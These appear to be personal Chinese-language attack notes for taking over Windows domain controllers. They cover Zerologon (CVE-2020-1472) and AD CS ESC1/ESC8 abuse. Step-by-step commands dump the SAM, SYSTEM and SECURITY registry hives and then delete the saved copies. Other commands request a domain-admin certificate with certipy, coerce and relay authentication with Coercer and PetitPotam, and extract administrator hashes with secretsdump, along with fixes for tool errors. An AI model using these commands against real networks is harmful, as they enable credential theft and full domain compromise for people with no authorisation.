

# 域控打法笔记

## CVE-2020-1472 zerologon

检测脚本

https://github.com/SecuraBV/CVE-2020-1472


利用

https://github.com/risksense/zerologon

置空密码


利用空密码dumphash


执行如下命令，将注册表下载到本地
```
reg save HKLM\SYSTEM system.save

reg save HKLM\SAM sam.save

reg save HKLM\SECURITY security.save

get system.save

get sam.save

get security.save

del /f system.save

del /f sam.save

del /f security.save
```
这里要注意，get命令不是windows操作系统的命令，是impacket提供的命令，可以通过help查看，比如我的这个版本就是叫lget


恢复机器码




## adcs

### 搭建参考
https://forum.butian.net/share/1583
https://yangsirrr.github.io/2021/08/16/adcs-esc1-esc8-gong-ji-fang-shi/#toc-heading-22

### esc1

#### 域外

1. certipy find -u user@domain -p password -dc-ip 192.168.44.129 -vulnerable

扫漏洞

坑 ldap ssl error
```
[-] Got error: socket ssl wrapping error: [WinError 10054] 远程主机强迫关闭了一个现有的连接。
[-] Use -debug to print a stacktrace
```
certipy默认用的ldaps，可以指定 -scheme ldap强制不使用ssl

2. certipy req -u user@domain -p password -target 192.168.44.131 -ca ding-cs-ca -template MATRIX -upn dcadmin@domain


为域管请求证书

3. certipy auth -pfx administrator.pfx -dc-ip 192.168.44.129

获取hash

坑 ldap ssl error，不支持ldaps，和坑1是一个问题

```
Kerberos SessionError: KDC_ERR_PADATA_TYPE_NOSUPP(KDC has no support for padata type)
```

在DC上配置证书，参考https://cloud.tencent.com/developer/article/1937696


4. secretsdump hash

#### 域内

### esc8

dc是2012以下时，PetitPotam可以匿名当问，否则需要制定域账号密码

#### 域外

Ceripty 报错 TypeError: __init__() got an unexpected keyword argument 'required'


解决方案，修改 entry.py 将 required=True 删掉，重新setup.py install

    subparsers = parser.add_subparsers(help="Action", dest="action", require=True)


同时新版Ceripty好像不支持 -ca ip形式，只能-ca-name,如果无法走dns解析就不能打，也可以降级到4.0版本指定ca ip

1. 开启监听 certipy relay -ca caip -template DomainController
certipy relay -ca caip -template DomainController


2. 强制relay
python .\Coercer.py coerce -u user -p pass -d domain -l relayip -t dcip


3. certipy auth -pfx xxx.pfx -dc-ip domainip


4. python secretsdump.py -hashes ':ntmlhash' 'domain/user@domainip' -just-dc-user administrator

